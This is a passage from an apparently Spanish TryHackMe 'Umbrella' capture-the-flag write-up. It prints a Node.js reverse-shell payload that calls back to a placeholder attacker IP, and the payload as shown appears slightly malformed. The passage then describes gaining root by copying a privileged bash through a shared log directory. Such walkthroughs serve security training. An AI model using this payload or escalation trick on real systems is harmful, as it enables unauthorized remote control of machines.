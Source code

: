 ![](../assets/img/umbrella-tryhackme-writeup/7.png)

### Payload
```python
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh"), []); var client = new net.Socket(); client.connect(443, "<TU-IP>", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;})();
```

Ganamos acceso de root, pero no estamos en la máquina que contiene el fichero *root.txt*.

Pero no es problema, ya que fácilmente encontramos el directorio de logs que comparten ambas máquinas, por lo que no nos complicamos y copiamos una bash con permisos de root (*shell de la derecha*), para lograr ejecutarla con los privilegios elevados desde el usuario *claire-r* (*shell izquierda*), consiguiendo leer la flag de root.

![](../assets/img/umbrella-tryhackme-writeup/8.png)

¡Hasta la próxima! ¡Que la "*suerte*" os acompañe!